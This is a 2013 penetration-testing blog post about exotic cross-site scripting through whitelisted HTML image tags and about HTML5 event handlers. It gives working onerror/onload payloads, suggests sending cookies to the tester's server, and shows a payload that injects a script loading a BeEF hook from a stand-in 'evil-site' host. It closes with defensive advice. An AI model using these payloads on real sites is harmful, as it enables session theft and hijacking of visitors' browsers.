 ```yaml
---
id: 1681
title: 'Exotic XSS: The HTML Image Tag'
date: '2013-10-14T13:04:56-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://blog.skullsecurity.org/2013/590-revision-v1'
permalink: '/?p=1681'
---
```


There are the usual XSS tests. And then there are the fun ones. This is a story about a more exotic approach to testing XSS....

I was testing a company that had passed all XSS tests from their pentester. I found that they allowed users to write HTML tags. Of course they didn't permit <script> tags or <iframe> tags. (Well, they did allow those, but that was an oops - no server side filtering.) This company had whitelisted a variety of "safe" tags for use by clients.

That's boring, right? Heh, thanks to Ron, I had a way to abuse their whitelist. (I've since found this in Web Application Hackers Handbook, but I seem to have overlooked it at the time I read it.) Three HTML 4 tags in particular allow javascript to be run from one of the elements and these are: <img>, <object>, and <style>.  
  
You are really unlikely to see <object> and <style> tags permitted, but <img> tags are a bit more common. Note: since my work on this site, I've seen RSnake's [page](http://ha.ckers.org/xss.html "page") and other pages that talk about using <img src="alert('XSS')">. That was nice in the past, but none of my current version browsers will execute that. (Makes me wonder if the whole tracking image thing from emails of yesteryear still works, but that's a rabbit trail. If you know, post a comment.) Still, just because I can't source the javascript, doesn't mean I can't execute javascript.... We'll use different HTML 4 elements.

Now, in my scenario, I decided to input <img src="blah.jpg" onerror="alert('XSS')"/> and reloaded the page. BINGO! I got a popup box. This also works and has the advantage of a working image: <img src="realimage.png" onload="alert('XSS')"/>.

That's cool. It's really easy to check that off on your list and say "vulnerable to XSS." But, can you do anything besides popping boxes? Doing something would be useful. I had a question about all this, "will these elements support more than an alert box or is this a useless novelty?" More tests were in order.

So, then we could replace alert() with document.write() and write the cookie to our server. This swipes cookies and that's better than a popup. But why stop there?

Why not create a <script> on the page itself? What's that you say? <script> isn't on the whitelist? So, your point? If your browser creates the <script> locally, it can't be filtered, now can it?

Thanks to Mak (@mak\_kolybabi) for giving me some of the tips I needed to get this going in the correct direction.

How about we try this:

<img onload="var s = document.createElement('script'); s.src='http://evil-site/beef/hook/beefmagic.js.php';document.getElementsByTagName('head')\[0\].appendChild(s);" src="real\_image.jpg" />

We have a image that triggers the onload element. Now we tell the browser to create a script element. You may not be able to write <script>, but you are able to write the word "script." The createElement function tells the browser to create the <script></script>. It's local to the client and the server has no idea. :-D

Then we give the source element (what else would you use but [BeEF](http://www.bindshell.net "BeEF")?) and then we place our new element into the page. Viola! You've just turned a simple <img> tag into stored XSS....

I have noticed that using onload="local\_function()," IE8 and FF3.6 have "issues." Not sure what it is quite yet.

I spent a few moments looking around to see if I could locate websites that allow you to use HTML tags. From a cursory perspective, Slashdot is safe, so is Digg, and most forums are now using BB Code. So, how useful is this? I'd wager it's probably a last resort. If you chained attacks you could potentially use it. Suppose you bypassed the front line of defense ([like so](http://www.skullsecurity.org/blog/?p=560 "like so")) in a manner that allowed you to write tags, but ran into some sort of whitelist filtering on the server preventing <script> tags. Now you have a way to create script tags while evading the filter.

We're not done yet....

Now, you might think that all of this is trivial and not very important. I mean seriously, who allows users to write tags at all? Let's look forward for a moment. HTML5 is coming. According to this[ site](http://simon.html5.org/html5-elements "site") (and I have to think that they would know), we find this beautiful bit of information: all event handlers must be supported by all elements, or something like that. And there are a bunch of new event handlers.

In other words, not only do we have access to onload/onerror in every element, we get lots more.... Stored XSS will be everywhere for years. All these wannabe web guys who implement the cool new whizbang HTML5 as soon as it ships, will be running huge risks unless they carefully filter out event handlers. (At least they need to prevent users from implementing event handlers.) We've seen how well this has worked in the past, so my hopes for reasonably secure implementation are exactly nonexistent.

And if you have a site that you want to allow users to write tags, try switching to BB Code. It's safer. Well, in 10 minutes of testing I didn't see how to bypass it as it doesn't support anything. :-D

Currently, I am developing a page that will test a browser's support of HTML 5 action events. If you have suggestions or tips, send them my way. I'm currently muddling through my coding.

Oh and just think about what would happen if someone accidentally on purpose managed to rewrite the <img> element on www.digg.com or www.google.com. Would anyone ever notice? How long would it take to find it? Seriously, looking for a compromise, who'd look at the official logo for the infection? Enjoy your nightmares people.

Cheers.